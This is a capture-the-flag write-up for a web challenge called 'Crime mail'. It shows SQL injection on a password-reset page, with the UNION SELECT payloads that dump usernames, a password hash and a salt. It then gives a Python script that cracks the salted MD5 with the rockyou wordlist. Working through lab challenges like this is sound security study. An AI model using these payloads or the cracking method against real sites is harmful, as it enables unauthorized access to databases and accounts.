

## Crime mail

### [~$ cd ..](../)

>Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.
>
>Let's see if you can hack your way in his account...
>
>Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary



The login form is not vulnerable to SQL injection, so we moved on the page /forgot.php. By filling the form with a single quote, the following message is returned:

*Database error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1*

We assumed that the table's name was 'users': 

>	>> ' union select group_concat(column_name) from information_schema.columns where table_name='users
>
>	<< ... string(39) "userID,username,pass_salt,pass_md5,hint" ...
>
>	>> ' union select group_concat(username) from users where '1
>
>	<<  ... string(44) "p.escobar,g.dupuy,a.capone,c.manson,c.hackle" ...
>
>	>> ' union select group_concat(pass_md5,pass_salt) from users where username = 'c.hackle' and '1
>
>	<<  ... string(36) "f2b31b3a7a7c41093321d0c98c37f5adyhbG" ...

We then tried a dictionary attack knowing the salt and the hash:

> ```python
>import md5
>file = open('rockyou.txt', 'r')
>text = file.read()
>file.close()
>lines = text.splitlines()
>for line in lines:
>	m = md5.new()
>	m.update(line + 'yhbG')
>	if m.hexdigest() == 'f2b31b3a7a7c41093321d0c98c37f5ad':
>		print line
>		break
> ```

And the answer was **pizza**. We then logged into using these credentials and got the flag **Meet me at INSA{s3cr3t_l0cat10n}**
